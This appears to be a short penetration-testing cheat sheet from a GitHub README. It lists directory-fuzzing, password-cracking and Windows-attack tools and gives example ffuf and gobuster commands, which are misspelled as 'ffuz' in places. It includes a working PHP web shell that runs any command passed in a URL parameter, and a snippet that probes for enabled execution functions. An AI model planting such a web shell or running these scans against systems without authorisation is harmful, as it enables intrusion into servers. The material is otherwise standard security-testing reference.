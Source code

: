 # Miscelaneous tools and others.

Tools for directory discovery: mainly gobuster and dirbuster.
Tools for fuzzing: ffuf, wfuzz.
Tools for password cracking: john, hydra.
General use scripts towards Windows-oriented attacks: https://github.com/fortra/impacket
Automated tool for misconfigs, clear-text creds and others: https://github.com/carlospolop/PEASS-ng
Good dictionaries: https://github.com/danielmiessler/SecLists

Very simple php shell:
```php
<?php 
    if(isset($_GET['cmd'])) { 
    system($_GET['cmd']); 
}?>

```

PHP check if funny features are enabled or not:

```php
<?php
    print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```

Basic ffuf use:

Fuzzes subdirectories.
```bash
ffuz -w (wordlist) -u http(s)://domainname.com/FUZZ
```

Fuzzes subdomains.
```bash
ffuz -w (wordlist) -u http(s)://FUZZ.domainname.com
```

Fuzz an HTTP header.
```bash
ffuz -w (wordlist) -u http(s)://domainname.com -H "Cookie: FUZZ"
```

Basic gobuster use:

Check for subdirectories.
```bash
gobuster dir -w (wordlist) -u http(s)://domainname.com/
```

Checks for virtualhosts (S3 buckets and more).
```bash
gobuster vhost -w (wordlist) -d http(s)://domainname.com/
```
